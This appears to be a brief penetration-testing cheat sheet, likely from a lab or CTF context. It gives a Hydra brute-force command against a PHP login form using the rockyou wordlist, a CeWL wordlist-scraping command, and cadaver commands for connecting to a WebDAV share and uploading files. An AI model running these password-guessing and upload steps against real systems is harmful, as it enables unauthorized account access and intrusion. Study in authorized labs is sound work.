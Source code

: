 >[!code]- Brute force http-post login
>###### Hydra
>```powershell
>hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
>```

>[!code]- Create a wordlist from website
>###### CeWL
>- Defaults to a depth of `2`
>- `-d 5` changes depth to 5
>```powershell
>cewl http://10.10.110.100:65000/wordpress/
>```

>[!code]- WebDav
>###### Connect (might need credentials)
>```powershell
>cadaver http://192.168.122.120
>```
>###### Upload a file
>```powershell
>put /location/to/local/file.txt
>```